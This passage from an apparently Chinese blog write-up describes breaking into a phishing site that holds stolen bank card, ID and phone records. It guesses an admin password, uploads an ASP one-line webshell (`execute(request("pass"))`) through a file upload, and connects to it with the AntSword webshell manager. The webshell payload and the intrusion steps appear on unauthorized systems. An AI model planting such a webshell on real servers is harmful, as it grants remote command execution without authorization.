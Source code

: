 

整个列表中就这一条最特别，看返回也是 302 重定向，看来应该是密码对了跳转进页面了，然后看这密码，也是够随意的，看着简单，猜的时候谁又能想到呢，登录进去看看：



![front-jieliuzi-order-list](https://img2023.cnblogs.com/blog/1049983/202405/1049983-20240510143817192-1248574985.png)





![front-jieliuzi-ip-list](https://img2023.cnblogs.com/blog/1049983/202405/1049983-20240510143823626-30608114.png)



……，唉，怎么说呢，应该是触目惊心吧，虽然数量没有一些媒体平台时不时报道那些的那么夸张，但也不是一个小数目了，而且每一处记录的银行卡账号、密码、身份证号、手机号、验证码、IP位置这些，都是近乎真实的；我不是正义的制裁者，也没有多少执行正义的力量，最多就热心的帮他们删个库再跑路，个人的力量太小了，所以这些还是都后面交给警察蜀黍处理吧，正义可能会迟到，但不会缺席。

## 0x03 获取权限

### 0x001 Get webshell

暂时先抛开题外话，上面进行到了文件上传这一步，文件上传可以意味着很多事情，可执行文件的上传便可以实现获取服务器的系统操作权限，当然这里的网页应用程序的相关权限一版很低，提权的事就是后话了；当前任务是拿下网站操作权限，即 webshell，继续走流程，先上传个简单的 asp 版一句话木马：

```
<% execute(request("pass")) %>
```

然后就该 亮剑 了：



![antsword-add-data-menu](https://img2023.cnblogs.com/blog/1049983/202405/1049983-20240510143824576-76208029.png)





![antsword-add-data-detail](https://img2023.cnblogs.com/blog/1049983/202405/1049983-20240510143825301-1207895494.png)





![antsword-add-data-success](https://img2023.cnblogs.com/blog/1049983/202405/1049983-20240510143825972-1775532615.png)



搞定，进去康康：



![antsword-wwwroot-list](https://img2023.cnblogs.com/blog/1049983/202405/1049983-20240510143826679-570661089.png)



文件相关操作：



![antsword-wwwroot-list-menu](https://img2023.cnblogs.com/blog/1049983/202405/1049983-20240510143827346-2043558376.png)


